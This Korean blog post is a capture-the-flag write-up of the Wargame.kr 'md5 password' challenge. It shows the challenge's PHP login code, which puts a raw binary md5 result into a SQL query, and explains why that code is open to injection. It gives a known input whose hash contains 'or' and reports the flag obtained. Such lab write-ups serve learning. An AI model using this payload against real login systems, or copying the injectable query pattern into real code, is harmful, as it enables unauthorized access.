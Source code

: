 ```yaml
---
layout: post
title: ! "[Wargame.kr] md5 password 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Wargame.kr]
tags:
  - Write-up
  - Wargame.kr
---
```


일하기가 싫으니까 1일 1문제가 너무 잘된다 ㅎㅎㅎ  

계속 문제 이렇게 꾸준히 풀면 언젠간 CTF에서도 좋은 성적을 얻을 수 있겠지...?? ㅎㅎ  

이번 문제는 `MD5 SQL Injection`이다.  

<!--more-->

문제 정보는 다음과 같다.  

```
md5('value', true);
```

문제 페이지에 접속하면 `password`를 입력하는 칸이 하나 있고, 페이지의 소스코드를 확인할 수 있다.  

```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```

소스코드를 살펴보면, 내가 입력 한 `password`의 값이 `md5` 함수를 통과 해 쿼리문의 `password` 자리에 들어간다.  

근데 이 때, `md5($ps, true)`를 사용한다.  

`php`에서 `md5()` 함수를 사용할 때, 두 번째 인자는 `true` 혹은 `false`의 값을 받는다.  

만약에 `true`라면, 결과가 `binary` 형태로 나오고, `false`라면 `hex` 값의 형태로 나온다.  

물론 `defalut` 값은 `false`이다.  

두 번째 인자가 `ture`일 경우 만약에 내가 입력 한 `password`가 `md5` 함수를 통과하여 `binary` 형태로 나왔을 때, `ASCII` 범위 안에 있는 문자라면 그대로 출력된다.  

때문에 만약 `md5` 함수를 통과 한 결과가 `' or '` 형태를 띈다면 완성되는 쿼리는 다음과 같기 때문에 `SQL Injection`이 가능해 진다.  

```
select * from admin_password where password='' or ''
```

이런 형태가 나오는 값을 직접 구해봐도 되지만, 아마도 인터넷에 잘 알려져 있을 것 같았다.  

그래서 구글신에게 `md5 sql injection`이라고 검색을 해 봤더니 아래와 같은 값을 입력하면 `' or '` 형태의 결과값을 얻을 수 있다고 한다.  

```
129581926211651571912466741651878684928
```

이를 직접 `python`으로 테스트 해 보았다.  

```
$ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> print hashlib.md5("129581926211651571912466741651878684928").digest()
ٔ0Do#ࠁ'or'8
```

그 결과 완성되는 쿼리는 다음과 같다.  

```
select * from admin_password where password='ٔ0Do#ࠁ'or'8'
```

때문에 `password='ٔ0Do#ࠁ'` 부분은 `false`가 되고 `'8'` 부분이 `true`가 되어 값을 추출할 수 있다.  

다시 문제 페이지로 돌아가 `129581926211651571912466741651878684928` 입력했더니 아래와 같이 flag를 얻을 수 있었다.  

![](/images/wargame.kr/md5_password/md5_01.png)

```
FLAG : 3f73ad2d57d66488b92c10f0bce1cfcb35e99882 
```
